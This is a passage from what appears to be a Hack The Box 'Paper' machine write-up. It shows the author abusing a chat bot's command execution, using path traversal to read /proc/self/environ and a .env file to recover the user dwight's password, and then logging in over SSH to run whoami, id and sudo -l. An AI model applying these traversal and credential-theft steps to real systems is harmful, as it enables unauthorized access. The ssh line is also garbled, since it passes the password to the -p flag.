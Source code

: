 ![](../assets/img/HTB/Machines/paper/Paper_identify-bot.png)

We dm the bot to execute commands :   
![](../assets/img/HTB/Machines/paper/Paper_getpasswd.png)

the password file is in the `../hubot/.env` ,can get this from the rocket chat  git hub.  
Also from @ippsec i learnt this command that allows us to read the environment file using the rce vulnerability `../../../../proc/self/environ`   
creds :  
	- user : `dwight`  
	- password : `Queenofblad3s!23`

# Initial access — SSH as `dwight`
Now we can ssh 
```
ssh -p 'Queenofblad3s!23' dwight@10.129.88.37

[dwight@paper ~]$ whoami
dwight
[dwight@paper ~]$ id
uid=1004(dwight) gid=1004(dwight) groups=1004(dwight)
[dwight@paper ~]$ sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for dwight: 
Sorry, user dwight may not run sudo on paper.
```